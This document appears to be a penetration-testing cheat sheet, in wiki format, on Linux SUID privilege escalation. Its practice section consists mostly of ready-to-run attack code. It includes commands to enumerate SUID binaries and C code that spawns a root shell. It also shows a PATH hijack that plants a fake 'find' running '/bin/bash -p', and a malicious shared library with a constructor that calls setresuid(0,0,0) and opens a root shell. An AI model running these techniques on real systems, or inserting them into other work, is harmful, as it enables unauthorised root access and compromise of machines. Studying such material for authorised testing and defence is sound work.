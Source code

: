 # SUID Binaries

## Theory

SUID/Setuid stands for "set user ID upon execution", it is enabled by default in every Linux distributions. If a file with this bit is run, the uid will be changed by the owner one. If the file owner is `root`, the uid will be changed to `root` even if it was executed from user `bob`. SUID bit is represented by an `s`.

{% hint style="info" %}
Some of these techniques also may be used with SUDO scripts and binary
{% endhint %}

## Practice

### Misc SUID Binaries

{% tabs %}
{% tab title="Find" %}
We can use this command to find all SUID binaries

```bash
find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
find / -perm -4000 -type f 2>/dev/null
```
{% endtab %}

{% tab title="Create" %}
Here is how to create a SUID binary

```bash
print 'int main(void){\nsetresuid(0, 0, 0);\nsystem("/bin/sh");\n}' > /tmp/suid.c   
gcc -o /tmp/suid /tmp/suid.c  
sudo chmod +x /tmp/suid # execute right
sudo chmod +s /tmp/suid # setuid bit
```
{% endtab %}

{% tab title="Known Exploits" %}
If you find that a binary have the SUID bits, you can check on [GTFOBins](https://gtfobins.github.io/) for known SUID exploits.
{% endtab %}
{% endtabs %}

### Relative Path Exploit

{% tabs %}
{% tab title="Enumerate" %}
If a **suid** binary executes another command **without specifying the full path.** We can abuse it and get a privilege escalation.

You may use `strings` to spot other binaries calls, or reverse the **suid** binary.

```bash
strings ./the-suid-bin

...
find
...
```
{% endtab %}

{% tab title="Exploit" %}
We can create a malicious executable with the same name as the one called by the **suid** binary.

```bash
echo '/bin/bash -p' > /tmp/find
chmod +x /tmp/find
```

\
Then, set the **PATH** env variable before executing the SUID binary.

```bash
#Sudo with modified PATH
export PATH=/tmp:$PATH 
./the-suid-bin
```
{% endtab %}
{% endtabs %}

### Shared Library Hijacking

{% tabs %}
{% tab title="Enumerate" %}
If you find some binary with **SUID** permissions, you could check if all the **.so** files are **loaded correctly**

```bash
strace the-suid-bin 2>&1 | grep -i -E "open|access|no such file"
```

You also could check if the **SUID** binary is loading a library from a folder **where we can write**:

```bash
# Lets find a SUID using a non-standard library
ldd the-suid-bin
something.so => /lib/x86_64-linux-gnu/something.so

# The SUID also loads libraries from a custom location where we can write
readelf -d the-suid-bin | grep PATH
0x000000000000001d (RUNPATH)            Library runpath: [/development]
```

Alternatively, you could use the `strings` command to find used shared library

```bash
strings ./the-sudo-bin | grep -i '*.so*'
```
{% endtab %}

{% tab title="Exploit" %}
For example, if you find that the **suid** binary **doesn't** **load correctly** _`/home/user/.config/libcalc.so`_ or that you can overwrite it, you can exploit it.

Write a malicious shared library

```c
//Saved to /home/user/.config/libcalc.c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Compile it

```bash
gcc -shared -o /home/user/.config/libcalc.so -fPIC /home/user/.config/libcalc.c
```

Execute the SUID binary

```bash
./SUID-BINARY
```

{% hint style="info" %}
If you get an error such as

```shell-session
./suid_bin: symbol lookup error: ./suid_bin: undefined symbol: a_function_name
```

that means that the library you have generated need to have a function called `a_function_name`.
{% endhint %}
{% endtab %}
{% endtabs %}
